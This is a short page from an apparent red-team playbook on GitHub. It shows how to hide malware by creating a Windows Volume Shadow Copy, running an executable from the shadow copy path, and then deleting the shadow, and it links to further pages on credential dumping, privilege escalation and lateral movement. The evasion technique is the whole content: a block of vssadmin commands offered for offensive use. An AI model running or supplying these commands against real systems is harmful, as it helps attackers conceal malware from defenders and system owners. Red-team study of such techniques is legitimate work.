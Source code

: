 # Exploitation

## Table of Contents

- [Hide Malware by using Volume Shadow Copy](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.1-Post-Exploitation.md#Hide-Malware-using-Volume-Shadow-Copy)

## Hide Malware using Volume Shadow Copy

```c
C:\> vssadmin create shadow /for=c:
C:\> vssadmin list shadows
C:\> \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\<FILE>.exe
C:\> vssadmin delete shadows /shadow=<ID>
```

### Previous

- [4 Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4-Exploitation.md)

### Next

- [4.2 Credential Dumping](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.2-Credential-Dumping.md)
- [4.3 Privilege Escalation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.3-Privilege-Escalation.md)
- [4.4 Lateral Movement](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.4-Lateral-Movement.md)
